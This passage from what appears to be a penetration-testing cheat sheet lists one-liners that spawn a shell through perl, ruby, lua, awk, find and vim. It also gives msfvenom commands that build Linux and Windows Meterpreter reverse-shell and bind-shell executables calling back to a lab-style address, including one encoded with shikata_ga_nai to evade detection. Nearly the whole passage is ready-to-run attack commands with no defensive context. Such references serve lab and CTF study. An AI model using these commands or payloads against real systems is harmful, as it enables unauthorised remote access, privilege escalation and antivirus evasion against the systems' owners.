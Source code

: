 ```bash
perl -e 'exec "/bin/sh";'
```

#### Using Ruby

```bash
ruby -e 'exec "/bin/sh"'
```

#### Using Lua

```lua
lua -e 'os.execute("/bin/sh")'
```

#### Using AWK

```bash
awk 'BEGIN {system("/bin/sh")}'
```

#### Using Find

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit
```

#### Using VIM

```bash
vim -c ':!/bin/sh'
```

### MSFvenom Payload Generation

MSFvenom can generate various shellcode payloads.

#### Linux Payloads

```bash
# Linux Meterpreter Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.137 LPORT=4444 -f elf > shell.elf

# Linux Bind Shell
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf > bind.elf
```

#### Windows Payloads

```bash
# Windows Meterpreter Reverse TCP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.137 LPORT=4444 -f exe > shell.exe

# Windows Bind Shell
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > bind.exe

# Windows Encoded Meterpreter Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe LHOST=10.10.14.137 LPORT=4444 > encoded.exe
```
